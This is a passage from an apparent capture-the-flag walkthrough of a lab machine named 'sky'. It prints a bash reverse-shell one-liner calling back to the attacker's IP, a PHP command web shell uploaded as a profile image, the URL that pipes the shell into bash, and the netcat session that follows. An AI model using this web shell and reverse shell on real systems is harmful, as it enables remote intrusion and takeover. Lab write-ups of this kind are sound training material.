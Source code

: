 bash\_rev\_shell.txt
```shell
bash -i >& /dev/tcp/10.18.52.67/7777 0>&1
```

cmd.phtml
```shell
`<?php system($_GET['cmd']); ?>
```

At this point you can get a reverse shell by executing `cat bash_rev_shell.txt | bash` in the phtml cmd just like this


```
http://10.10.195.41/v2/profileimages/cmd.phtml?cmd=cat%20bash_rev_shell.txt%20|%20bash
```

Then as always we fix the tty

```shell
[dasor@archlinux ~]$ nc -lvp 7777
Connection from 10.10.195.41:49282
bash: cannot set terminal process group (561): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sky:/var/www/html/v2/profileimages$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777
                              script /dev/null -c bash
                                                      Script started, file is /dev/null
                                                                                       www-data@sky:/var/www/html/v2/profileimages$
www-data@sky:/var/www/html/v2/profileimages$ stty rows 30 columns 132
www-data@sky:/var/www/html/v2/profileimages$ export TERM=xterm
```

At this point we get the first flag from the user webdeloper's home

## Root Flag

Now by looking at the /etc/passwd we can see mysql and mogodb are running, first I tried to enter to mysql but I couldn't. However mongodb didn't require any password

```shell
www-data@sky:/var/www/html/v2/profileimages$ mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("83a83455-4816-497c-9849-d2f82b40fa9d") }
MongoDB server version: 4.4.6
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        https://docs.mongodb.com/
Questions? Try the MongoDB Developer Community Forums
        https://community.mongodb.com
---
The server generated these startup warnings when booting:
        2022-09-11T13:53:32.987+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
        2022-09-11T13:54:37.040+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
---
---
        Enable MongoDB's free cloud-based monitoring service, which will then receive and display
        metrics about your deployment (disk utilization, CPU, operation statistics, etc).

        The monitoring data will be available on a MongoDB website with a unique URL accessible to you
```